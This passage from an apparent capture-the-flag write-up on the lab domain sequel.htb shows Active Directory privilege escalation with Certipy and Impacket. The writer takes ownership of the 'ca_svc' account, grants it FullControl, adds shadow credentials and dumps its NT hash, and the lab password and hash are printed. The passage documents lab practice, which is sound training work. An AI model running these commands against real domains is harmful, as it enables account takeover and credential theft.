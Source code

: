 * Members of the `CERT PUBLISHERS` group can modify the certificate template.
* This group can perform the [ADCS-ESC4](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/) attack on `SEQUEL.HTB`.

{% code overflow="wrap" %}
```bash
# ?
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0463b95b-9c55-962c-b591-1a547f01541e'
[*] Adding Key Credential with device ID '0463b95b-9c55-962c-b591-1a547f01541e' to the Key Credentials for 'ca_svc'
[-] Could not update Key Credentials for 'ca_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0

# Set ryan as the owner of ca_svc account
$ impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
...
[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-1114
[*] - sAMAccountName: ryan
[*] - distinguishedName: CN=Ryan Howard,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

# Give FullControl permissions to ryan over ca_svc
$ impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
...
[*] DACL backed up to dacledit-20250527-214121.bak
[*] DACL modified successfully!

$ certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '90e7a08d-7990-289e-0464-e01f1ba39197'
[*] Adding Key Credential with device ID '90e7a08d-7990-289e-0464-e01f1ba39197' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '90e7a08d-7990-289e-0464-e01f1ba39197' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```
{% endcode %}
